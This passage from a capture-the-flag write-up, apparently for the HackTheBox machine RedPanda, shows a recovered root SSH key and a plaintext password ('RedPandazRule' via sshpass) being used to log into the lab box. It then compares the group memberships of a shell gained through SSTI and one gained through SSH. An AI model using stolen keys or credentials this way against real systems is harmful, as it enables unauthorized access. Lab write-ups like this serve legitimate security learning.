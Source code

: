
#### Get Shell

I’ll save that key to a file, and use it to connect over SSH:

    
    
    oxdf@hacky$ vim ~/keys/redpanda-root
    oxdf@hacky$ chmod 600 ~/keys/redpanda-root
    oxdf@hacky$ ssh -i ~/keys/redpanda-root root@10.10.11.170
    Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-121-generic x86_64)
    ...[snip]...
    root@redpanda:~#
    

And read `root.txt`:

    
    
    root@redpanda:~# cat root.txt
    0a5aa61f************************
    

## Beyond Root - Groups

### Reverse Shell vs SSH

There are two ways I can get a shell as woodenk. Initially, I’ll get a
foothold using the SSTI in the web application running as woodenk. That shell
looks like:

    
    
    woodenk@redpanda:~$ id
    uid=1000(woodenk) gid=1001(logs) groups=1001(logs),1000(woodenk)
    woodenk@redpanda:~$ groups
    logs woodenk
    

I’ll notice the group id is 1001 (logs), and that the process also has group
1000 (woodenk).

When I find woodenk’s password, I can connect over SSH:

    
    
    oxdf@hacky$ sshpass -p RedPandazRule ssh woodenk@10.10.11.170
    ...[snip]...
    woodenk@redpanda:~$ id
    uid=1000(woodenk) gid=1000(woodenk) groups=1000(woodenk)
    woodenk@redpanda:~$ groups
    woodenk
    

This shell doesn’t have the logs group!

Interestingly, if I run `groups woodenk` from either shell, it returns:

    
    
    woodenk@redpanda:~$ groups woodenk
    woodenk : woodenk
    